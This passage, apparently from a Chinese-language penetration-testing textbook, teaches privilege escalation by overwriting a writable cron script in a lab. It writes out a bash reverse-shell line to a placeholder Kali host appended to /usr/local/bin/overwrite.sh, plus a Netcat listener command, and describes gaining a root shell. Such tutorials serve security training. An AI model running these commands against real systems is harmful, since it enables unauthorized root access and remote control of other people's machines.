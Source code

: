     在这种情况下，我们可以确定该脚本具有读写权限。因此，我们可以使用自己的命令对文件进行修改或覆盖。

1.  现在，让我们在 `overwrite.sh` 脚本中添加一个 `bash` 命令，为我们提供一个反向 Shell。可以通过运行以下命令来实现：

    `echo "bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1" >> /usr/local/bin/overwrite.sh`

    该命令将附加一个 `bash` 命令，它将连接到我们在 Kali Linux 虚拟机上的反向监听器。请确保用相应的 IP 地址和端口号替换命令中的字段。

    运行上述命令后，`overwrite.sh` 脚本应包含以下截图中所示的命令：

    ![图 12.22 – overwrite.sh 脚本附加的命令    ](img/B17389_12_022.jpg)

    图 12.22 – overwrite.sh 脚本附加的命令

1.  一旦我们附加了 `bash` 命令，我们需要使用 Netcat 设置一个反向监听器。

    我们可以通过运行以下命令在 Kali 虚拟机上设置反向监听器：

    `nc -nvlp <PORT>`

    请确保指定您在 `overwrite.sh` 脚本中使用的端口。

    在将 `bash` 命令附加到 `overwrite.sh` 脚本后，我们需要等待几分钟，以便 cron 作业被触发，之后我们应该会在 Netcat 监听器上收到一个提权的反向 Shell，如下图所示：

![图 12.23 – 反向 Shell](img/B17389_12_023.jpg)

图 12.23 – 反向 Shell

通过这一操作，我们成功利用了配置错误的 cron 作业，提升了权限，并以 root 用户身份执行了反向 Shell 有效负载。

现在，您应该对如何枚举系统上运行的 cron 作业有了清晰的了解，并且掌握了如何通过多种技术手段利用这些作业提升权限。

# 总结

在本章中，我们首先研究了 cron 工具的工作原理和 crontab 文件的结构。然后，我们深入探讨了如何利用配置错误的 cron 路径。我们还探索了通过利用 cron 作业执行的脚本中的通配符来提升权限的过程。最后，我们通过研究如何通过 cron 文件覆盖提升权限结束了本章内容。

在下一章，我们将探讨如何利用 SUDO 和 SUID 二进制文件来提升我们的权限。
